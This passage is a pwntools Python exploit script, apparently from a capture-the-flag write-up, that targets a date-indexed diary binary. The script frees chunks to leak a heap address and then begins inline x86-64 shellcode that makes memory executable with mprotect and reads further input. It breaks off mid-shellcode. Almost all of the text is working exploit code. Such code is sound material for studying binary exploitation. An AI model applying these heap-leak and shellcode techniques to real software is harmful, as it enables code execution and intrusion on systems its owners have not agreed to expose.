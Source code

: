 {% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(year, month, day, size, data, n):
    r.sendline('1')
    r.recvuntil(' ... ')
    r.sendline(str(year)+'/'+str(month)+'/'+str(day))
    msg = r.recv(14)
    if 'Wrong date ;(' in msg:
        r.recvuntil('>> ')
        return
    else:
        r.sendline(str(size))
        r.recvuntil('>> ')
        if n:
            r.sendline(data)
        else:
            r.send(data)
        r.recvuntil('>> ')

def show(year, month, day):
    r.sendline('2')
    r.recvuntil('Show entry\n')
    data = r.recvuntil('\nInput date ... ').strip('\nInput date ... ')
    r.sendline(str(year)+'/'+str(month)+'/'+str(day))
    r.recvline()
    data2 = r.recvuntil('\n\n').strip()
    r.recvuntil('>> ')
    return data, data2


def delete(year, month, day):
    r.sendline('3')
    r.recvuntil('Input date ... ')
    r.sendline(str(year)+'/'+str(month)+'/'+str(day))
    r.recvuntil('>> ')

def exploit(r):
    r.recvuntil('>> ')
    register(1980, 1, 1, 32, "C" * 32, 0)
    register(1980, 1, 2, 32, "C" * 32, 0)
    delete(1980, 1, 1)
    delete(1980, 1, 2)

    register(1980, 1, 3, 64, "\xeb\x7f" + "D" * 46, 0)
    d1, d2 = show(1980, 1, 3)
    heap = u64(d2[48:].ljust(8, '\0'))
    log.info("leak: " + hex(heap))


    sc = ('''
    xor rax, rax
    mov al, 9
    inc al
    mov rdi, 0x602000
    mov rsi, 0x1000
    mov rdx, 7
    syscall

    mov rax, 0
    xor rdi, rdi
    mov rsi, 0x602190
    mov rdx, 27
    syscall
